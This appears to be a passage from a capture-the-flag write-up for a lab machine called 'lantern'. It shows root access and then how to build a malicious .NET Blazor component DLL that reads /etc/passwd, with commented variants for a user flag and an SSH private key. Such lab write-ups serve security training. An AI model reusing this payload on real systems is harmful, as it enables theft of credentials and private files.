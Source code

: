 Q3E2##B  
  
  
  
root@lantern:~# id  
  
uid=0(root) gid=0(root) groups=0(root)  
  
  
  
## make exploit.dll  
  
dotnet new classlib -n exploit  
  
dotnet add package Microsoft.AspNetCore.Components --version 6.0.0  
  
modify the Class1.cs to  
  
  
  
using Microsoft.AspNetCore.Components;  
  
using Microsoft.AspNetCore.Components.Rendering;  
  
using System.IO;  
  
  
  
namespace exploit  
  
```c#
{  
  
    public class Component : ComponentBase  
  
    {  
  
        protected override void BuildRenderTree(RenderTreeBuilder builder)  
  
        {  
  
            base.BuildRenderTree(builder);  
  
            string file = File.ReadAllText("/etc/passwd");  
  
            //string file = File.ReadAllText("/home/tomas/user.txt");  
  
            //string file = File.ReadAllText("/home/tomas/.ssh/id_rsa");  
  
            builder.AddContent(0, file);  
  
        }  
  
    }  
  
}  
```
  
  
  
dotnet build -c Release  
  
  
  
## the compiled dll is in bin/Release/net6.0/exploit.dll
